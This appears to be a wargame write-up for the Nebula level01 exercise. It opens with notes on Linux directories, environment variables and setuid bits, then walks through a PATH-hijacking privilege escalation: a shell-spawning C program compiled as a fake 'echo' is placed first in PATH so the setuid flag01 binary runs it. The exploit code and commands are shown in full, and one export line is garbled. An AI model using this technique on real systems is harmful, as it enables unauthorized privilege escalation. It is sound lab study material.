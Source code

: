 ## Linux Directories Structure
**Briefy Explaination**
```
/ -> Root Dir
/bin -> User Binaries
/sbin -> System Binaries
/etc -> Configuration Files
/dev -> Device Files
/proc -> Process Informatio
/var -> Variable Files
/tmp -> Temporary Files
/usr -> User Programs
/home -> Home Directories
/boot -> Bootloader Files
/lib -> System Libraries
/opt -> Optional Add-on Apps ( Third Party )
/mnt -> Mount Directory
/media -> Removalbe Devices
/srv -> Service Data
```
Root Folder ( ls -al /)
```
drwxr-xr-x  3 root root 2728 2012-08-18 02:50 bin
lrwxrwxrwx  1 root root   33 2011-11-20 17:10 initrd.img -> /boot/initrd.img-3.0.0-12-generic
drwxrwxrwt  4 root root   80 2020-05-09 01:54 tmp

d -> Directory
l -> Symbolic Link
t -> sticky bits 
```
[more about sticky bits](https://www.linuxnix.com/sticky-bit-set-linux/)

**Environment Variables** ( env )
```
level01@nebula:~$ env
TERM=xterm
SHELL=/bin/sh
SSH_CLIENT=192.168.43.234 61505 22
SSH_TTY=/dev/pts/0
USER=level01
LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arj=01;31:*.taz=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.dz=01;31:*.gz=01;31:*.lz=01;31:*.xz=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.rar=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.jpg=01;35:*.jpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.axv=01;35:*.anx=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.axa=00;36:*.oga=00;36:*.spx=00;36:*.xspf=00;36:
MAIL=/var/mail/level01
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
PWD=/home/level01
LANG=en_US.UTF-8
SHLVL=1
HOME=/home/level01
LANGUAGE=en_US:
LOGNAME=level01
SSH_CONNECTION=192.168.43.234 61505 192.168.43.229 22
LESSOPEN=| /usr/bin/lesspipe %s
LESSCLOSE=/usr/bin/lesspipe %s %s
_=/usr/bin/env
```
PATH ( locate example )
```
level01@nebula:~$ locate /etc/passwd
/etc/passwd
/etc/passwd-

locate program is in /usr/bin
PATH = /usr/bin
```
**Setuid Program in ls**
```
-rwsr-x--- 1 user group
```
group only have execute permission

Nebual 01 [ [Description](https://exploit-exercises.lains.space/nebula/level01/) ]
```
#include <stdlib.h> 
#include <unistd.h> 
#include <string.h> 
#include <sys/types.h> 
#include <stdio.h> 
int main(int argc, char **argv, char **envp) { 
	gid_t gid; 
	uid_t uid; 
	gid = getegid(); 
	uid = geteuid(); 
	setresgid(gid, gid, gid); 
	setresuid(uid, uid, uid); 
	system("/usr/bin/env echo and now what?"); 
	}
```
ls -al /home/flag01
```
-rwsr-x--- 1 flag01 level01 7322 2011-11-20 21:22 flag01
```
Running program
```
level01@nebula:/home/flag01$ ./flag01
and now what?
```
system() is command execution fuction in C
```
level01@nebula:/home/flag01$ /usr/bin/env echo aaaaa
aaaaa
```
Locating echo command
```
level01@nebula:/home/flag01$ locate echo
/bin/echo
```
Shell spawning program ( shellspawn.c )
```
#include <stdlib.h> 
#include <unistd.h> 
#include <string.h> 
#include <sys/types.h> 
#include <stdio.h> 
int main(int argc, char **argv, char **envp) { 
	gid_t gid; 
	uid_t uid; 
	gid = getegid(); 
	uid = geteuid(); 
	setresgid(gid, gid, gid); 
	setresuid(uid, uid, uid); 
	system("/bin/sh"); 
	}
```
Compiling C code to Executable
```
gcc -o echo shellspawn.c
```
Need to compile in our Writeable Directory 
```
/home/level01
/tmp
```
Editing Environment Variables ( [Ref](https://www.serverlab.ca/tutorials/linux/administration-linux/how-to-set-environment-variables-in-linux/) )
```
export NAME=VALUE

export PATH=/home/level01
```
After Export PATH
```
level01@nebula:~$ /usr/bin/env
TERM=xterm
SHELL=/bin/sh
SSH_CLIENT=192.168.43.234 61505 22
OLDPWD=/home/flag01
SSH_TTY=/dev/pts/0
USER=level01
LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arj=01;31:*.taz=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.dz=01;31:*.gz=01;31:*.lz=01;31:*.xz=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.rar=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.jpg=01;35:*.jpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.axv=01;35:*.anx=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.axa=00;36:*.oga=00;36:*.spx=00;36:*.xspf=00;36:
MAIL=/var/mail/level01
PATH=/home/level01
PWD=/home/level01
LANG=en_US.UTF-8
SHLVL=1
HOME=/home/level01
LANGUAGE=en_US:
LOGNAME=level01
SSH_CONNECTION=192.168.43.234 61505 192.168.43.229 22
LESSOPEN=| /usr/bin/lesspipe %s
LESSCLOSE=/usr/bin/lesspipe %s %s
_=/usr/bin/env
```
Not work.We need to export for specific file
```
export PATH=/home/level01:$PATH=/home/flag01/flag01
```
env
```
PATH=/home/level01:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games=/home/flag01/flag01
```
Running flag01
```
level01@nebula:~$ /home/flag01/flag01
flag01@nebula:~$ id
uid=998(flag01) gid=1002(level01) groups=998(flag01),1002(level01)
flag01@nebula:~$ getflag
You have successfully executed getflag on a target account
```

**References**
[https://www.thegeekstuff.com/2010/09/linux-file-system-structure/](https://www.thegeekstuff.com/2010/09/linux-file-system-structure/)
[https://www.serverlab.ca/tutorials/linux/administration-linux/how-to-set-environment-variables-in-linux/](https://www.serverlab.ca/tutorials/linux/administration-linux/how-to-set-environment-variables-in-linux/)
[https://www.cyberciti.biz/faq/set-environment-variable-linux/](https://www.cyberciti.biz/faq/set-environment-variable-linux/)

